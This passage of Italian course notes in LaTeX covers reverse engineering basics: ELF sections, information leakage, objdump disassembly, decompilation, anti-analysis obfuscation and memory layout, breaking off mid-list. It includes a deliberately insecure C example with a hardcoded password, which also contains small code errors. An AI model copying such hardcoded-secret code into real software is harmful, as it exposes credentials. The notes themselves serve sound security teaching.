    
\includegraphics[width=.6\linewidth]{res/ELF_Structure.png}
    \caption{}
\end{figure}
Alcuni dei segmenti più comuni sono i seguenti:
\begin{itemize}
    \item \textbf{.interp}, contiene il percorso dell'interprete che sarà utilizato per eseguire il programma;
    \item \textbf{.text}, contiene il codice dell'eseguibile (e.g. return 3+4);
    \item \textbf{.rodata}, contiene i dati in sola lettura (e.g. printf("ciao"));
    \item \textbf{.data}, contiene i dati sia in lettura sia in scrittura (e.g. int x = 0x41);
    \item \textbf{.bss}, contiene le variabili globali non ancora inizializzate (e.g. static int x).
\end{itemize}
Verranno introdotti altri segmenti successivamente utili per la sicurezza o per gli exploit.

\subsubsection{Information Leak}
Uno dei problemi del linguaggio \textit{C} è l'information leakage in quanto tutte le variabili non vengono tradotte dal compilatore ma rimangono in chiaro nel codice, ciò permette di vederle anche dal codice compilato. Sopponiamo di avere il seguente codice sorgente:
\begin{lstlisting}[language=C]
    #include <stdio.h>
    #include <string.h>

    int main (int argc, char** argv) {
        char *password = "super-secret-password"
        if (argc < 2) {
            printf("Usage : %s <name>\n" , argv [0]);
            return 1;
        }

        if (!strcmp(password, argv[1])) {
            print("Access granted!\n");
        }
        return 0;
    }
\end{lstlisting}
Effettuando una ricerca nel file compilato potremo vedere come la variabile inizializzata con la nostra password saraà in chiaro.
\begin{lstlisting}[language=bash]
    command:
    strings test | grep pass

    output:
    super-secret-password
\end{lstlisting}

\section{Analisi dei file compilati}

Invertendo il processo di compilazione saremo in grado di tornare al codice assembly del programma. La parte più difficile però sarà passare dal codice assembly al codice in \textit{C}, in quanto al contrario del codice assembly che è 1:1 con l'opcode, il codice in \textit{C} non lo è con l'assembly del programma.
Questo perchè essendo un linguaggio a più alto livello avrà dettagli implementativi che ne possono modificare il reverse.
Per questo si utilizzano varie tecniche per fare il reverse da codice assembly a codice \textit{C}:
\begin{itemize}
    \item \textbf{Static analysis}, analisi del codice senza mandarlo in esecuzione;
    \item \textbf{Dynamic analysis}, analisi del codice attraverso l'esecuzione dello stesso.
\end{itemize}

\subsection{Static Analysis}
L'analisi statica come detto in precedenza si effettua sul compilato stesso senza andarne ad analizzare i comportamenti durante l'esecuzione.

\subsubsection{Disassembly}
La fase di assembly è facilmente reversibile, si effettua andando a mappare l'opcode del programma con l'equivalente in linguaggio X86\_64. Siccome l'assembly X86\_64 non utilizza un particolare alfabeto per i dati e per il codice, si potrà disassemblare anche il garbage (e.g. disassemblando .rodata o .data).
Uno dei tool di più facile utilizzo ma anche poco potente utilizzabile è \textit{objdump}.

Supponiamo di voler vedere il codice assembly del file sorgente precedentemente visto:
\begin{lstlisting}[language=bash]
    command:
    objdump -D ./test | grep '^[0-9]\+ <main>' -A 10
\end{lstlisting}

Otterremo un output del genere:
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/objdump_1.png}
    \caption{}
\end{figure}

Come possiamo vedere avremo come output l'intero codice assembly generato dall'opcode precedente.
Per svolgere il reverse engineering dell'opcode esistono diverse tecniche che si possono utilizzare:
\begin{itemize}
    \item \textbf{Linear sweep};
    \item \textbf{Recursive descent};
    \item \textbf{FLIRT (Fast Library Indication and Recognition Technology)}, una combianzione delle precedenti.
\end{itemize}

Un disassembler linear sweep analizza il codice partendo dalla prima riga fino ad arrivare all'ultima analizzandolo byte per byte, questo però può portare ad avere delle sequenza di codice errate nel caso in cui i dati sono mischiati con il codice o nel caso di salti all'interno porterebbe a non tradurre le istruzioni successive.
Al contrario un disassembler recursive descent analizza il codice basandosi sul \textbf{CFG (Control Flow Graph)} del binario, ciò gli permette di tradurre tutto il codice superando i limiti del precedente, questo metodo però risulta spesso difficoltoso quando nel codice sono presenti chiamate indirette che dipendono dal contenuto dei registri o posizioni di memoria.
\clearpage
\subsection{Decompilation}
Una volta dissassemblato l'opcode potremo effettuare la decompilazione, che porterà ad avere un codice \textbf{C-like}, in questo caso il codice generato potrà essere abbastanza diverso dal sorgente vero e proprio in quanto una volta compilato il sorgente perderà tutti i commenti e cambierà i nomi delle variabili, ciò porterà ad una difficolta da parte dell'analista nel comprendere il codice decompilato.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/decompiled_code.png}
    \caption{}
\end{figure}

\subsubsection{Anti static analysis technique}
I disassembler statici spesso sono compelssi e la maggior parte delle volte utilizzano tecniche euristiche e approcci complessi per l'analisi del codice.
Un esempio di tecnica anti debug può essere effettuata modificando gli headers cercati da objdump in modo tale da non far funzionare il software. Un altro approccio è offuscare il codice inserendo istruzioni inutili o ottimizzazioni "strane" in modo da rendere più difficoltosa l'analisi dai software.
Un esempio è quello che segue:
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/obfuscated_code.png}
    \caption{Disassembly dell'opcode partendo dall'indirizzo 0x00}
\end{figure}

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/obfuscated_code2.png}
    \caption{Disassembly dell'opcode partendo dall'indirizzo 0x02}
\end{figure}
Come si può vedere partendo ad analizzare il codice da un altro punto avremo un risultato totamente diverso, ciò renderà l'analisi più difficoltosa.
\clearpage
\section{Com'è composta la memoria}

\subsection{Stack}
\begin{wrapfigure}{r}{0.5\textwidth}
    \begin{center}
        
\includegraphics[width=0.1\textwidth]{res/stack.png}
        \caption{Raffigurazione dello stack}
    \end{center}
\end{wrapfigure}
Lo \textbf{Stack} è la porzione di memoria dove risiedono tutti i dati di un programma, quando chiami una funzione o dichiari una variabile esse verranno posizionate nello stack, essa è gestita automaticamente dal sistema.
Lo stack cresce in verso il basso, cioé verso gli indirizzi di memoria minori.

\subsection{Heap}
\begin{wrapfigure}{l}{0.5\textwidth}
    \begin{center}
        
\includegraphics[width=0.1\textwidth]{res/heap.png}
        \caption{Raffigurazione dell'heap}
    \end{center}
\end{wrapfigure}
La memoria \textbf{Heap} al contrario dello stack non viene gestita dal sistema ma è compito del programmatore attraverso le corrette chiamate alle funzioni (e.g. malloc o delete in C), essa è utilizzata per distribuire il possesso di limitate quantità di memoria tra varie porzioni di dati e codice.

\clearpage
\subsection{Protezione per la memoria}
Al giorno d'oggi i processori implementano vari sistemi di protezione della memoria, infatti essa non sarà mai accessibile direttamente da un processo ma verrà demandato il controllo alla \textbf{MMU} che si occuperà di prelevare e rimuovere i vari dati e le istruzioni dalla memoria e a prevenire eventuali errori di segmentation fault.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.4\linewidth]{res/MMU.png}
    \caption{}
\end{figure}

Ciò ha portato anche all'implementazione di vari livelli di permessi per una processo, essi prendono il nome di \textbf{Ring}, permettono di isolare la memoria evitando una manipolazione errata della stessa.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/Ring.png}
    \caption{}
\end{figure}

Questi anelli sono nuimerati da 0 a 3, con 0 l'anello più privilegiato e 3 il meno:
\begin{itemize}
    \item \textbf{Ring 0}, è il ring dove viene eseguito il sistema operativo e da accesso ai privilegi massimi (kernel mode);
    \item \textbf{Ring 1}, generalmente poco utilizzato;
